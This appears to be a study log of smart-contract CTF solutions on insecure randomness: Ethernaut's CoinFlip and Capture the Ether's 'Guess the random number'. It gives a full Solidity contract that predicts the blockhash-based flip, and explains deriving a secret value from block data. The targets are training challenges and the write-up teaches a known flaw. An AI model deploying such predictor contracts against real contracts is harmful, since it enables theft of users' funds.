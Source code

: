 ## Day 2 Insecure Randomness

### Ethernaut #3 (coinflip)

The objective here is to guess the coin flip outcome 10 times in a row.  The source of randomness on this coinflip is the block number.  We can write another contract to "predict" the source of randomness because both transactions will be in the same block.  Here is a smart contract that does that, and will complete the task.  

```Java
contract CoinFlipPredict {
    address constant COINFLIP_ADD = 0xfe706fe779C4ADDcf6BC54681C7af2Ea78e14D15;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip immutable _coin;
    uint256 lastHash;

    constructor(){
        _coin = CoinFlip(COINFLIP_ADD); 
    }

    function predict() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) { // check if we already predicted on this block
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        _coin.flip(side);
    }

}
```


### Capture the Ether Guess the random number

The objective here is once again to drain the contract.  It Requires 1ETH to deploy and each guess costs 1ETH.  The answer is generated as a Keccak256 hash of the blocknumber and the time when the contract was deployed.  We could solve this two ways: 1. look at the value stored in the contract, and 2. read the block number and creation timestamp.  

block.number: 1
block.timestamp: 1681421036

This can be used to derive 108 as the secret number, and capture the Eth.  